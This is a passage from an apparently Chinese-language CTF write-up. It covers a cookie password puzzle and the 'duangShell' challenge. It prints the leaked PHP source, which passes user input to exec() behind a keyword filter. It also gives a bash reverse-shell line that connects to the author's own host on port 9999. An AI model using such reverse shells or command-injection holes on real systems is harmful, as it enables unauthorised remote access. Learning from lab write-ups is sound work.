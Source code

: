 cookie中的`dXNlcg`变量解码后怀疑是时间戳。

cookie中的`dXNlcg`变量与`Forecast success rate`正比关系。

Burst successed! The passwd is av11664517@1583985203.

密码放上去一直是错，不过看到这个av开头的数值我第一想到时B站的视频，看评论找了很久。

![image-20210419191518562](https://z3.ax1x.com/2021/04/21/cbMNq0.png)



### duangShell

> 知识点： 代码泄露、反弹shell

题目提示swp泄露了，给他点面子，进入`.index.php.swp`页面。下载后`vim -r index.php`打开。

```php
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>give me a girl</title>
</head>
<body>
    <center><h1>珍爱网</h1></center>
</body>
</html>
<?php
error_reporting(0);
echo "how can i give you source code? .swp?!"."<br>";
if (!isset($_POST['girl_friend'])) {
    die("where is P3rh4ps's girl friend ???");
} else {
    $girl = $_POST['girl_friend'];
    if (preg_match('/\>|\\\/', $girl)) {
        die('just girl');
    } else if (preg_match('/ls|phpinfo|cat|\%|\^|\~|base64|xxd|echo|\$/i', $girl)) {
        echo "<img src='img/p3_need_beautiful_gf.png'> <!-- He is p3 -->";
    } else {
        //duangShell~~~~
        exec($girl);
    }
}
```

过滤了挺多东西的，而且没回显，我只能想到用`curl`来反弹shell。

在自己的公网机子里放入bash.txt，内容如下。

```bash
bash -i >& /dev/tcp/you_ip/9999 0>&1
```

然后在自己机子里侦听`9999`

